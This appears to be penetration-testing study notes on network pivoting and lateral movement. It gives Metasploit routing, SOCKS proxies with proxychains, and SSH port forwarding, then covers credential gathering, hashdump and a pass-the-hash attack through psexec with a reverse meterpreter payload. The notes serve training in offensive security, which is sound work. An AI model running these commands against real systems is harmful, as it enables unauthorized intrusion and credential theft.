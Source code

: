 
---

## Pivoting and Internal Network Scan

Pivoting allows us to move through the internal network easily and quickly, exploiting new hosts.  

####  ** using metasploit (IP Forwarding) ** 

 ** IP forwarding  **
```bash

* **Pivoting:**
    - Route traffic through compromised machines:
      - Add route in Metasploit: `route add 10.10.10.0 255.255.255.0 <session number>`
      - Use autoroute (on meterpreter) `run autoroute -s 10.10.10.0/24`
      - Check routes: `autoroute -p`
    
* **Port Scanning via Pivot:**
    - Use `auxiliary/scanner/portscan/tcp` for TCP port scanning.
    - Example: `use auxiliary/scanner/portscan/tcp`

* **Proxy Setup (Metasploit + Proxychains):**
    - Set up Metasploit SOCKS4 proxy:
      - Module: `auxiliary/server/socks4a`
      - Set SRVHOST & SRVPORT (default is port 1080).
    - Configure Proxychains:
      - Update `/etc/proxychains.conf`: `socks4 127.0.0.1 1080`
      - check the proxy is running  ->` /meterpreter> jobs`  
    - Example command:
      - `proxychains nmap -sT -Pn -n <target IP> --top-ports 50` 
* **Access Services via Proxychains:**
    - SSH: `proxychains ssh <target IP>`
    - Telnet: `proxychains telnet <target IP>`
```
### using ssh (port forwarding)
#### **Local Port Forwarding (L2R)**  
```bash
# Forward traffic from your machine to a remote service

# 1. Add a port forward
portfwd add -l <local-port> -p <remote-port> -r <remote-IP>

# 2. Example: Forward RDP
portfwd add -l 3333 -p 3389 -r 10.10.10.5
rdesktop 127.0.0.1:3333

# 3. List forwarded ports
portfwd list
```

#### **Remote Port Forwarding (R2L)**  
- Expose **local service** to a **remote machine**.  
  ```bash
  ssh -R <remote-port>:localhost:<local-port> user@<remote-host>
  ```

#### **SSH Dynamic Port Forwarding (SOCKS Proxy)**  

```bash
# SSH Dynamic Port Forwarding (SOCKS Proxy)

# 1. Generate SSH Keys
mkdir piv_keys && chmod 700 piv_keys
ssh-keygen -f piv_keys/id_rsa_1
# Send id_rsa_1 to the target machine

# 2. Create a SOCKS Proxy
ssh -D 9999 -f -N user@10.10.10.2 -i piv_keys/id_rsa_1

# 3. Configure ProxyChains
echo "socks5 127.0.0.1 9999" >> /etc/proxychains4.conf

# 4. Use ProxyChains with Tools
proxychains nmap -sT 123.123.123.0/24
```

#### **Key Differences Between Forwarding Types**  
| **Type**           | **Direction**                 | **Purpose**                         | **Example**                       |
|--------------------|-------------------------------|-------------------------------------|-----------------------------------|
| **Local** (L2R)    | Local → Remote                | Access remote service from local   | RDP forwarded to `127.0.0.1:3333` |
| **Remote** (R2L)   | Remote → Local                | Expose local service to remote     | Web server accessible remotely    |
| **Dynamic (SOCKS)**| Local → Multiple destinations | Route traffic dynamically via SSH  | ProxyChains over SOCKS5 proxy     |


***


## Exploitation  
#### extract credentials
```bash
# extract cred of clint service/ softwares
meterpreter > run post/multi/gather/filezilla_client_cred

```

#### Pass-the-Hash Attack
- **Weakness**: Windows authentication protocols allow users to log in using hashed versions of passwords (NT or LM hashes) instead of cleartext passwords.  
- **Attack Vector**: If the same password is used across multiple machines, obtaining the hash from one host grants access to others, even without knowing the actual password.

* **Tools for Pass-the-Hash**  
- Metasploit and other tools are available to exploit this Windows weakness.  
- You only need the hashes, not the cracked passwords.

* **Dumping Hashes**  
- **Command**:  
  ```bash
  meterpreter > hashdump
  ```

* **Pass-the-Hash with Metasploit (psexec Module)**  
To run a pass-the-hash attack using the `psexec` module:

- **Configure the Module**:
  - **RHOST**: Target host (e.g., 10.10.10.5)
  - **SMBUser**: User account (e.g., els)
  - **SMBPass**: Password hash
  - **Payload**: Meterpreter or custom payload

- **Commands**:
  ```bash
  use exploit/windows/smb/psexec
  set RHOST 10.10.10.5
  set SMBUser els
  set SMBPass <NTLM hash>
  set PAYLOAD windows/meterpreter/reverse_tcp
  run
  ```

* **Post-Exploitation After Successful Exploit**  
Once you have a meterpreter session on a new machine, repeat the post-exploitation process to gather more information (e.g., services, hosts, networks).  

* **Notes**  
- Use proxychains with socks4a to pivot exploits if Metasploit doesn't have a module for the specific vulnerability.
- 
